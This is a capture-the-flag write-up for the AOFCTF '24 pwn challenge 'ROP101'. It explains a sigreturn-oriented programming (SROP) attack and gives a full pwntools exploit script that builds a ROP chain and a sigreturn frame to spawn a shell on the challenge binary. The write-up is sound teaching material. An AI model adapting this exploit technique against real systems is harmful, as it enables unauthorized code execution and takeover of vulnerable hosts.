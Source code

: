 ```yaml
---
title: AOFCTF '24 - Pwn - ROP101
date: '2024-04-29'
tags: ['pwn', 'aofctf', 'srop']
draft: false
summary: Utilizing SROP to write to a buffer and then using read syscall to write 0xF into rax to call rt_sigreturn
---
```


## Challenge Description

![alt text](/static/writeups/aofctf-24/image-10.png)

## Solution

This challenge was a simple SROP challenge. However, since we didn't have a gadget that could directly control `RAX`, we would make use of `READ` to read in `0xF` bytes so that RAX would contain `rt_sigreturn` syscall opcode, and then we would simply create the sigreturn frame, and jump to it.

The exploit for this is as follows, the only thing I added was a simple 2 second delay; that was to ensure that the bytes are sent properly.

```py:exploit.py
#!/usr/bin/env python3

from pwn import *
context.terminal = ["tmux", "splitw", "-h"]

exe = "./rop101"
elf = context.binary = ELF(exe)
io = remote(sys.argv[1], int(sys.argv[2])) if args.REMOTE else process()
# if args.GDB: gdb.attach(io, "b *main+40")
# io = gdb.debug(exe, gdbscript="b *main+40")

frame = SigreturnFrame()
frame.rax = 0x3b
frame.rdi = elf.bss(0)
frame.rsi = 0
frame.rdx = 0
frame.rip = 0x401141

payload = flat(
    cyclic(24, n=8),
    0x0000000000401144, # pop rsi; ret
    elf.bss(0),
    0x000000000040113f, # xor eax, eax; syscall,
    0x0000000000401144, # pop rsi; ret
    elf.bss(0)+0x10,
    0x000000000040113f, # xor eax, eax; syscall
    0x0000000000401141, # syscall
    frame
)
io.send(payload)
io.sendline(flat(b"/bin/sh\x00"))
time.sleep(2)
io.send(b"A"*0xF)
io.interactive()
```
